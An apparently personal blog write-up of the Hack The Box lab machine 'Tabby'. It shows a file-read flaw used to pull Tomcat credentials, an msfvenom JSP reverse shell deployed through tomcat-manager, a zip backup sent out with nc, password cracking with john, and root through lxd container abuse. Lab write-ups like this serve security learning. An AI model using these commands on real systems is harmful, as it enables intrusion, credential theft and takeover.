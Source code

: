 ```yaml
---
layout: single
classes: wide
title: "Hack The Box Write-up #5 : Tabby"
excerpt: "Writeup for Tabby, a machine provided by HacktheBox."
date: 2020-11-08
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  teaser: /assets/images/tabby-writeup/tabby.png
  
categories:
  - hackthebox
tags:  
  - linux
  - cve
  - tomcat
---
```


![card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby.png)

## Summary
Tabby is an interesting easy box provided by hackthebox where We are represented with a file read vulnerability which we abuse to gain access into the tomcat manager.
Using a classic exploit method , we are able to grab a low privileged shell.
Cracking a zip file leads us to the user password which is part of the ``lxd`` group , thus we can abuse it to gain a system shell.

## Enumeration

### nmap
As always we start by doing a nmap scan against the host :

```sh
root@kali:/home/pi0x73# nmap -sC -sV -T4 10.10.10.194
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 14:50 CET
Nmap scan report for 10.10.10.194
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

Some interesting information can be collected through the nmap scan where we see **Tomcat Apache** running on port 8080 , a web page on port 80 and a domain : **megahosting.htb**

First thing, I am going to add the domain to the hosts file and procced through the web page.

### Webpage

Procceding through the webpage, we are represented with a hosting platform service :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby-web.png)

Nothing much interesting till here , but after I while clicking around I saw an interesting piece of code in the page source : 

```html
<li><a href="#pricing">Infrastructure</a></li>
<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>
<li><a href="#about">About</a></li>
<li><a href="#callus">Support</a></li>
```

### File Read

It seems like all of the buttons redirect to nowhere but news button has an interesting link attached. 
A php page that calls files from system and shows them on the webpage so I though it was possible that we could achieve File Read from the remote host.

![lfi](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lfi.png)

Obviously the File Read injection was successful and I was able to read files from the system through this vulnerability. 

This could be a lot useful at the moment since we also noticed apache tomcat running on port 8080 , so I started looking around for the ``tomcat-users.xml`` file which holds the credentials configured for the administration panel.

To make the searching easier I installed **tomcat9** on my attacker machine to see where it saves the config files.

![tomcat9](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat9.png)

Using those paths I was able to retrieve the config file from the remote system : 

```xml
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>

   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can easily see the credentials for tomcat running on 8080.

However while trying to connect with the given credentials on [http://10.10.10.194:8080/manager](http://10.10.10.194:8080/manager) I noticed that the I could not access the GUI panel, so I started googling about possible other ways.

After some time I came up with an interesting pip module : **tomcat-manager**, 
which could help me use the panel through CLI .

![tomcatmgr](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcatmgr.png)

I found this module very helpful because not only I was able to connect to the tomcat manager service but I could also upload files through it.

### tomcat shell

So quickly create a payload using msfvenom and drop it to the web service using *tomcatmanager* :

```console
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.30 LPORT=9001 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

root@kali:~# tomcat-manager
tomcat-manager> connect http://10.10.10.194:8080/manager tomcat "$3cureP4s5w0rd123!"
--connected to http://10.10.10.194:8080/manager as tomcat
tomcat-manager> deploy local shell.war /zdf
tomcat-manager>
```
With the payload already uploaded to the web server , what's left to do is to navigate on [http://10.10.10.194:8080/zdf](http://10.10.10.194:8080/zdf) in my case to triger the payload and recieve a reverse shell to my machine : 

![tomcat-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat-shell.png)

## Leveraging Privileges

Upon enumerating inside the box I saw something interesting under ``/var/www/html/files`` : 

![backups](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/backups.png)

I copied this zip backup to my machine to view it contents :

```console
tomcat@tabby:/var/www/html/files$ nc 10.10.15.30 9002 < *.zip


root@kali:~# nc -lvp 9002 > *.zip
Listening on 0.0.0.0 9002
Connection received on megahosting.htb 35208
```

However I wasnt able to view anything because the zip backup was password protected. 

### Cracking the zipfile

In order to unlock it I used **zip2john** to convert the archive into a crackable hash and then give it to john to crack.

```sh
root@kali:~# zip2john backup.zip
backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

root@kali:~# john backupfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2020-11-08 15:49) 0.6849g/s 7097Kp/s 7097Kc/s 7097KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There was nothing useful inside the zip backup but I noticed that user **ash** uses the same password as zip :

![sudo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/sudo.png)

## Privesc to root

Now as seen above , while using ``id`` command, it pulls out interesting information where ``ash`` is a memeber of **lxd** group.

Members from this group can create and start containers to the machine.
To sumarize that I am able to create a container , start it and then mount the machine filesystem to it.

### Abusing LXD Privileges

I downloaded **alpine** image to the machine which is a preconfigured container and initialized it :

![lxd](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lxd.png)

This way I can now exeucute ``/bin/bash`` to the container and navigate to the filesystem to read the flag :

```sh
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # wc -c root.txt
wc -c root.txt
33 root.txt
```
